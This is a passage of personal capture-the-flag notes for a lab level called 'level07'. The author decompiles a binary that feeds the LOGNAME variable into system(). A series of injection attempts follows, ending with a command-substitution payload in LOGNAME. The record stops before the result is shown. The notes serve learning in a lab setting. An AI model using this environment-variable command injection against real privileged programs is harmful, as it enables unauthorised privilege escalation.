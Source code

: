 # cmd
* ``ls``
    * binary level07
* ``./level07`` -> ``level07``
    * it looks like level03, let's try
* try 1 : reboot level03
    * on host machine ``scp -P 4242 level07@10.14.200.79:level07 level07/ressources`` + dogbolt -> level07.c
        * found in main l191
        ``asprintf(&local_1c,"/bin/echo %s ",pcVar1);``
        ``iVar2 = system(local_1c);``
        ``return iVar2;``
        I'm not so sure, level03's method will works...
    * fail
* try 2 : see l190 -> ``pcVar1 = getenv("LOGNAME");``
    * ``echo $LOGNAME``
        * ``level07``
    * ``export LOGNAME=flag07`` + ``./level07``
        * fail
* try 3 :
    * ``export LOGNAME=getflag`` + ``./level07``
        * fail
* try 4 :
    * ``export LOGNAME=system(getflag)`` + ``./level07``
        * ``bash: syntax error near unexpected token `('``
    * ``export LOGNAME='system(getflag)'`` + ``./level07``
        * ``sh: 1: Syntax error: "(" unexpected``
    * ``export LOGNAME="\$(getflag)"`` + ``./level07``